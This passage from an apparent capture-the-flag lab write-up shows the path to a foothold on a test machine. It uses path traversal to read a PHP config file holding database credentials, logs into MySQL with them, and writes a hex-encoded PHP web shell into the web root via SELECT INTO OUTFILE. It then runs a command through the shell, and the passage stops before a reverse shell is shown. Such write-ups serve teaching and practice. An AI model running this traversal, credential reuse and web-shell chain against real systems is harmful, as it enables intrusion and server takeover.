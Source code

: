 ```php
└─$ curl 'http://10.10.165.19/fetch.php?image=../db_connection.php'
<?php

$host = 'localhost';
$db = 'app';
$user = 'dbuser';
$pass = 'Y0uC4n7Cr4ckTh1sDBP4ss!';

try {
    $conn = new PDO("mysql:host=$host;dbname=$db;charset=utf8", $user, $pass);
    $conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
} catch (PDOException $e) {
    die("Connection failed: " . $e->getMessage());
}
```
we got the database credentials `dbuser:Y0uC4n7Cr4ckTh1sDBP4ss!`

since mysql is open, let's try to connect to the database :

```plaintext
└─$ mysql -h $VMIP -u dbuser -p'Y0uC4n7Cr4ckTh1sDBP4ss!'    
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 45
Server version: 5.7.33-0ubuntu0.16.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```

we connected succefully.

### Foothold

there is nothing interesting in the database tables.

a way to leverage database access is trying to write a php web-shell to the web-app's root directory, let's try that :

```plaintext
MySQL [(none)]> SELECT '' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED by 0x3C3F7068702073797374656D28245F4745545B22636D64225D29203F3E;
Query OK, 1 row affected (0.411 sec)
```

that worked, let's try to access the web shell and run commands :

```plaintext
└─$ curl 'http://10.10.165.19/shell.php?cmd=id'                    
uid=33(www-data) gid=33(www-data) groups=33(www-data),118(mysql)
```

and we have command execution as the user `www-data`, let's get a shell :
